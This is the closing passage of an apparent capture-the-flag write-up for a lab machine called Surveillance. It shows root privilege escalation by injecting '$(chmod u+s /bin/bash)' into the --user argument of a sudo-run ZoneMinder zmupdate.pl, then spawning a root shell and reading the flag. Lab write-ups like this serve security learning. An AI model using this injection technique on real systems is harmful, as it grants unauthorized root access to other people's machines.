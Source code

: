 ![zmupdate vulnerable](/assets/images/Surveillance/zmupdate_vulnerable_rce.png)

And now, with the password, we can exploit it in the zmupdate.pl --user parameter:

```bash
zoneminder@surveillance:/usr/share/zoneminder/www/api/app/Config$ sudo /usr/bin/zmupdate.pl --version 1 --user='$(chmod u+s /bin/bash)' --pass='ZoneMinderPassword2023'

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-1.dump. This may take several minutes.
mysqldump: Got error: 1698: "Access denied for user '-pZoneMinderPassword2023'@'localhost'" when trying to connect
Output: 
Command 'mysqldump -u$(chmod u+s /bin/bash) -p'ZoneMinderPassword2023' -hlocalhost --add-drop-table --databases zm > /tmp/zm/zm-1.dump' exited with status: 2
zoneminder@surveillance:/usr/share/zoneminder/www/api/app/Config$ bash -p
bash-5.1# whoami
root
bash-5.1# cd /root/
bash-5.1# cat root.txt 
50a1b0211164d8fcfbf20dca6ab3f88d
```

That is all. Hope you liked it!
